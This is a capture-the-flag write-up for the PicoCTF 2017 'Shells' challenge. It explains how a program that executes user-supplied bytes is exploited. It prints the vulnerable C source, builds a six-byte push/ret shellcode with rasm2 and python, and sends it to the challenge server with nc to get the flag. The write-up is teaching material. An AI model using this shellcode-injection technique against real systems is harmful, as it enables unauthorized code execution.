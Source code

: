 # PicoCTF_2017: Shells

**Category:** Binary
**Points:** 70
**Description:**

>How much can a couple bytes do? Use [shells](shells) [Source](shells.c). Connect on shell2017.picoctf.com:63545.

**Hint:**

>Read about basic shellcode
You don't need a full shell (yet...), just enough to get the flag

## Write-up

1.  It's just little tricky one. But if you know basic of shellcode's then it might be easy for you. This time again we got two files
	```
	$ls
	shells shells.c
	```   
So now lets try to HexDump the  `shells`  binary.
    
    ```
    shells:     file format elf32-i386
     Disassembly of section .init:
     08048378 <_init>:
      8048378:	53                   	push   %ebx
      8048379:	83 ec 08             	sub    $0x8,%esp
      804837c:	e8 ef 00 00 00       	call   8048470 <__x86.get_pc_thunk.bx>
      8048381:	81 c3 8b 16 00 00    	add    $0x168b,%ebx
      8048387:	8b 83 fc ff ff ff    	mov    -0x4(%ebx),%eax
      804838d:	85 c0                	test   %eax,%eax
      804838f:	74 05                	je     8048396 <_init+0x1e>
      8048391:	e8 6a 00 00 00       	call   8048400 <__gmon_start__@plt>
      8048396:	83 c4 08             	add    $0x8,%esp
      8048399:	5b                   	pop    %ebx
      804839a:	c3                   	ret    
     
     Disassembly of section .plt:
     
     080483a0 <read@plt-0x10>:
      80483a0:	ff 35 10 9a 04 08    	pushl  0x8049a10
      80483a6:	ff 25 14 9a 04 08    	jmp    *0x8049a14
      80483ac:	00 00                	add    %al,(%eax)
     	...
     
     080483b0 <read@plt>:
      80483b0:	ff 25 18 9a 04 08    	jmp    *0x8049a18
      80483b6:	68 00 00 00 00       	push   $0x0
      80483bb:	e9 e0 ff ff ff       	jmp    80483a0 <_init+0x28>
     
     080483c0 <printf@plt>:
      80483c0:	ff 25 1c 9a 04 08    	jmp    *0x8049a1c
      80483c6:	68 08 00 00 00       	push   $0x8
      80483cb:	e9 d0 ff ff ff       	jmp    80483a0 <_init+0x28>
     --More--
    
```
    
So it's x86 binary.

Now lets take a look on  `shells.c`  file.
    
```
     #include <stdio.h>
     #include <stdlib.h>
     #include <unistd.h>
     #include <sys/mman.h>
     
     #define AMOUNT_OF_STUFF 10
     
     //TODO: Ask IT why this is here
     void win(){
         system("/bin/cat ./flag.txt");    
     }
     
     
     void vuln(){
         char * stuff = (char *)mmap(NULL, AMOUNT_OF_STUFF, PROT_EXEC|PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, 0, 0);
         if(stuff == MAP_FAILED){
             printf("Failed to get space. Please talk to admin\n");
             exit(0);
         }
         printf("Give me %d bytes:\n", AMOUNT_OF_STUFF);
         fflush(stdout);
         int len = read(STDIN_FILENO, stuff, AMOUNT_OF_STUFF);
         if(len == 0){
             printf("You didn't give me anything :(");
             exit(0);
         }
         void (*func)() = (void (*)())stuff;
         func();      
     }
     
     int main(int argc, char*argv[]){
         printf("My mother told me to never accept things from strangers\n");
         printf("How bad could running a couple bytes be though?\n");
         fflush(stdout);
         vuln();
         return 0;
     }
```
    Just see their iss one  `win()`  function. Lets take a look on win() function in our HexDump. We can short out output using  `grep`  command.
    
    objdump -d shells | grep win
    08048540 <win>:
    
    We got the address in Hex we used to write it in this way  `0x08048540`.
    
    Now we can use  [radare2](https://github.com/radare/radare2)  to generate our payload. Actually we need  `push+ret`  in order to make our payload.
    
    $rasm2 -C "push 0x08048540"
    "\x68\x40\x85\x04\x08"
    
    $rasm2 -C "ret"
    "\xc3"
    

Here  `-C`  will give output in c format.Now combine the output of push+ret:`\x68\x40\x85\x04\x08\xc3`

Now print this shellcode in one file name:  `spirit_shells`.

 python -c 'print "\x68\x40\x85\x04\x08\xc3"' > spirit_shells

now just cat it out with the : shell2017.picoctf.com:17533

$cat spirit_shells - | nc shell2017.picoctf.com 17533
 My mother told me to never accept things from strangers
 How bad could running a couple bytes be though?
 Give me 10 bytes:
 4350d27b024f8597f10b98f164f0fc43

So, i think we got the flag  `4350d27b024f8597f10b98f164f0fc43`.

Hope you liked it
<!--stackedit_data:
eyJoaXN0b3J5IjpbNTYxNTQzNjM2LC0xMjM0NzA0Mjg4XX0=
-->